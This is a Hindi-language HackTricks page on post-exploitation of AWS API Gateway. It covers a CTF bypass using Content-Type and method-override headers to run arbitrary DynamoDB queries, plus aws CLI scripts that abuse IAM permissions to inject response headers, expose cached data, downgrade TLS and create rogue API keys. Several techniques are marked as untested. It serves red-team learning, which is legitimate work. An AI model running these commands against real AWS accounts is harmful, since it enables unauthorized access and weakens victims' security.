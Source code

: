 # AWS - API Gateway Post Exploitation

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना** चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## API Gateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### अप्रकट API तक पहुंच

आप [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) में सेवा `com.amazonaws.us-east-1.execute-api` के साथ एक एंडप्वाइंट बना सकते हैं, जिसे आप एक नेटवर्क में उजागर कर सकते हैं (संभावित रूप से एक EC2 मशीन के माध्यम से) और सभी कनेक्शन की अनुमति देने वाला एक सुरक्षा समूह का निर्धारण कर सकते हैं।\
फिर, EC2 मशीन से आप एंडप्वाइंट तक पहुंच सकेंगे और इसलिए पहले अनावृत्त किया गया गेटवे API कॉल कर सकेंगे।

### अनुरोध बॉडी पासथ्रू बायपास

यह तकनीक [**इस CTF व्रिटअप में**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) में पाई गई थी।

[**AWS दस्तावेज़ीकरण**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) में इंडिकेट किया गया है कि `PassthroughBehavior` खंड में, डिफ़ॉल्ट रूप से, मान **`WHEN_NO_MATCH`** , जब अनुरोध के **Content-Type** हेडर की जांच की जाती है, तो अनुरोध को किसी भी परिवर्तन के बिना पीछे की ओर पास करेगा।

इसलिए, CTF में API Gateway में एक एकीकरण टेम्पलेट था जो **जब `Content-Type: application/json` के साथ एक अनुरोध भेजा गया था, तो झंडा बाहर निकालने से रोक रहा था**:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

हालांकि, **`Content-type: text/json`** के साथ एक अनुरोध भेजने से वह फ़िल्टर रोका जा सकता है।&#x20;

अंत में, API गेटवे केवल `Get` और `Options` की अनुमति दे रहा था, इसलिए एक पोस्ट अनुरोध भेजकर किसी भी सीमा के बिना एक अर्बिट्रे dynamoDB क्वेरी भेजना संभव था जिसमें क्वेरी बॉडी में हो और हेडर `X-HTTP-Method-Override: GET` का उपयोग करें: 

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### उपयोग योजना डीओएस

**जांच** खंड में आप देख सकते हैं कि **कैसे कुंजियों की उपयोग योजना प्राप्त** की जा सकती है। यदि आपके पास कुंजी है और यह **माह में X उपयोगों से सीमित** है, तो आप **इसे उपयोग करके डीओएस** का कारण बना सकते हैं।

**एपीआई कुंजी** को **केवल** एक **HTTP हेडर** में **शामिल** किया जाना चाहिए जिसे **`x-api-key`** कहा जाता है।

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास अनुमतियाँ `apigateway:UpdateGatewayResponse` और `apigateway:CreateDeployment` हैं, **मौजूदा गेटवे प्रतिक्रिया में सामान्य हेडर या प्रतिक्रिया टेम्पलेट शामिल करने के लिए संशोधित कर सकता है जो संवेदनशील जानकारी लीक करता है या दुर्भाग्यपूर्ण स्क्रिप्ट्स को क्रियान्वित कर सकता है**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी का लीक हो सकता है, दुरुपयोगी स्क्रिप्ट का निषेधार्थक क्रियान्वयन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
जरूरत है टेस्टिंग की
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateStage` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API गेटवे स्टेज को संदर्भित ट्रैफिक को एक विभिन्न स्टेज पर पुनर्निर्देशित करने या कैशिंग सेटिंग्स को बदलकर कैश किए गए डेटा तक अनधिकृत पहुंच प्राप्त कर सकता है**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश किए गए डेटा तक अनधिकृत पहुंच, API ट्रैफिक को व्यवधानित या अटका जाना।

{% hint style="info" %}
जरूरत परीक्षण की
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:PutMethodResponse` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API गेटवे REST API विधि के विधि प्रतिक्रिया को संशोधित कर सकता है ताकि वहाँ गोपनीय जानकारी लीक करने वाले कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल किया जा सके या जानकारी लीक करने या दुर्भाग्यपूर्ण स्क्रिप्ट्स को क्रियान्वित करने के लिए।**
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक, दुर्भाग्यपूर्ण स्क्रिप्टों का क्रियान्वयन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
जरूरत है टेस्टिंग
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

एक हमलावर `apigateway:UpdateRestApi` और `apigateway:CreateDeployment` अनुमतियों के साथ API Gateway REST API सेटिंग को संशोधित कर सकता है ताकि लॉगिंग को अक्षम करें या न्यूनतम TLS संस्करण को बदलें, जिससे API की सुरक्षा कमजोर हो सकती है।
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: API की सुरक्षा को कमजोर करना, अनधिकृत पहुंच की अनुमति देना या संवेदनशील जानकारी को उजागर करना।

{% hint style="info" %}
जांच की आवश्यकता है
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

एक हमलावर जिसके पास `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, और `apigateway:CreateUsagePlanKey` अनुमतियाँ हैं, **नए API कुंजियाँ बना सकता है, उन्हें उपयोग योजनाओं से जोड़ सकता है, और फिर इन कुंजियों का अनधिकृत पहुंच के लिए उपयोग कर सकता है**।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**संभावित प्रभाव**: API संसाधनों तक अनधिकृत पहुंच, सुरक्षा नियंत्रणों को छलकर जाना।

{% hint style="info" %}
जाँच की आवश्यकता
{% endhint %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
